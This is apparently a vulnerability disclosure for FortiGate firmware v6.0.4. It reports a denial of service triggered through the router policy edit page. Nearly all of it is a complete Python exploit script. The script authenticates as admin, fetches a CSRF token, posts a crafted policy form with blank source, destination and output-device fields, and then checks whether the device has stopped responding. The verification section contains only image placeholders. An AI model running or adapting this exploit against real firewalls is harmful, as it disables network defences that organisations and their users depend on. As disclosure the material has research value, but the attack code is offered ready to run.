


# FortiGate v6.0.4 has a denial of service vulnerability

## Basic information

Supplier:  Fortinet
Product: FortiGate
Firmware version:  v6.0.4 

## Vulnerability description

FortiGate v6.0.4 can cause a denial of service after the /p/router/policy/edit/location post parameter is configured.

## exp

```python
import requests

proxy = '127.0.0.1:8086'
proxies = {
    'http': 'http://' + proxy,
    'https': 'http://' + proxy,
}

# Login request
login_url = "http://192.168.57.88:80/logincheck"
login_headers = {
    "Pragma": "no-cache",
    "Cache-Control": "no-store, no-cache, must-revalidate",
    "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
    "Content-Type": "text/plain;charset=UTF-8",
    "Accept": "*/*",
    "Origin": "http://192.168.57.88",
    "Referer": "http://192.168.57.88/login",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
    "Connection": "close"
}
login_data = {
    "ajax": "1",
    "username": "admin",
    "secretkey": ''  # Enter the actual password here
}

# Send login request
session = requests.Session()
session.proxies.update(proxies)
response = session.post(login_url, headers=login_headers, data=login_data)

# Check if login was successful
if response.ok:
    print("Login successful!")

    # Access /p/csrf/ensure/ to obtain a new CSRF token
    csrf_url = "http://192.168.57.88/p/csrf/ensure/"
    csrf_headers = {
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Accept": "application/json, text/plain, */*",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Referer": "http://192.168.57.88/ng/prompt?viewOnly&redir=%2Fng%2F",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
        "Connection": "close"
    }

    csrf_response = session.get(csrf_url, headers=csrf_headers)

    # Check if GET request was successful
    if csrf_response.ok:
        # Get cookies from response
        cookies = session.cookies.get_dict()
        csrf_token = cookies.get("csrftoken_10657778119897767527", "")
        print(f"Obtained CSRF token: {csrf_token}")

        # POST operation after login
        policy_post_url = "http://192.168.57.88/p/router/policy/edit/"
        post_headers = {
            "Pragma": "no-cache",
            "Cache-Control": "no-cache",
            "Upgrade-Insecure-Requests": "1",
            "Origin": "http://192.168.57.88",
            "Content-Type": "application/x-www-form-urlencoded",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "Referer": "http://192.168.57.88/p/router/policy/edit/",
            "Accept-Encoding": "gzip, deflate, br",
            "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
            "Connection": "close"
        }

        post_data = {
            "csrfmiddlewaretoken": csrf_token,  # Use the CSRF token obtained from GET request
            "protocol": "0",
            "input-device": "[]",
            "src": '',
            "srcaddr": "[]",
            "dst": '',
            "dstaddr": "[]",
            "start-source-port": "0",
            "end-source-port": "65535",
            "start-port": "0",
            "end-port": "65535",
            "tos": "0x00",
            "tos-mask": "0x00",
            "action": "permit",
            "output-device": '',
            "gateway": "1.1.1.1",
            "comments": '',
            "status": "enable"
        }

        # Send POST request
        post_response = session.post(policy_post_url, headers=post_headers, data=post_data, cookies=cookies)

        # Check the response of the POST request
        if post_response.ok:
            print("Attack request sent successfully, verifying...")

            # Attempt multiple requests to verify if DoS attack was successful
            attack_success = True  # Assume attack was successful, verification will determine
            for i in range(5):  # Attempt 5 requests
                try:
                    test_response = session.get(login_url, headers=login_headers, timeout=3)  # Set timeout to 3 seconds
                    if test_response.ok:
                        print(f"Request {i + 1} succeeded, attack may not have worked")
                        attack_success = False  # If request succeeds, mark attack as unsuccessful
                    else:
                        print(f"Request {i + 1} failed")
                except requests.exceptions.Timeout:
                    print(f"Request {i + 1} timed out, attack successful!")
                    attack_success = True  # If request times out, mark attack as successful
                    break  # Exit loop as attack is considered successful
                except Exception as e:
                    print(f"Error occurred during request {i + 1}: {e}")
                    attack_success = True  # If other errors occur, consider attack successful

            # Determine if attack was successful based on multiple requests
            if attack_success:
                print("DoS attack successful! Target system is unresponsive.")
            else:
                print("DoS attack unsuccessful, target system is still available.")
        else:
            print("Attack request failed, DoS attack did not take effect!")
```


## Vulnerability verification

Normal access to the router web side:




Run exp to attack:


The denial of service vulnerability attack was successful.




